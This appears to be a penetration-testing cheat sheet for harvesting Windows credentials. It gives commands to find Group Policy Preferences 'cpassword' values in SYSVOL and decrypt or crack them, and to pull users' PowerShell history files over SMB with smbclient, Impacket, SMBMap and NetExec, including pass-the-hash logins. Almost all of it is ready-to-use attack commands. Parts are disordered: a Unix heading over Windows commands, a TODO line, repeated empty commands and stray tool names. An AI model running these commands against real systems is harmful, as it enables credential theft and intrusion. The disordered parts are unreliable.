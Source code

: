 # Unix Shell

TODO: Convert it

Use the `dir` command to find the XML file.

```
C:\> dir /s Groups.xml

C:\> findstr /s cpassword %LOGONSERVER%\sysvol\*.xml
```

Copy the **cpassword** attribute after you've opened the XML file. Then decrypt it using `gpp-decrypt` utility or any other password cracking programs that is highly recommended like **Hashcat** or **John The Ripper**.

```
C:\> type C:\path\to\GPP_file.xml
```

smbclient

smbclient.py

smbmap

netexec

## 01 - Samba Suite Utils

```
smb: \> more /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt

smb: \> get /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt
```

## 02 - Impacket

```
$ smbclient.py

$ smbclient.py
```

Retrieve text file.

```
# get Users\<username>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt
```

## 03 - SMBMap

```
$ smbmap -u "<username>" -p "<password | nt_hash>" [-d <domain>] -H <IP> --download "C$\Users\<username>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt"
```

## 04 - NetExec

```
$ netexec smb -u "<username>" -p "<password>" [-d <domain> | --local-auth] --get-file /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt powershell_history.txt

$ netexec smb -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] --get-file /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt powershell_history.txt
```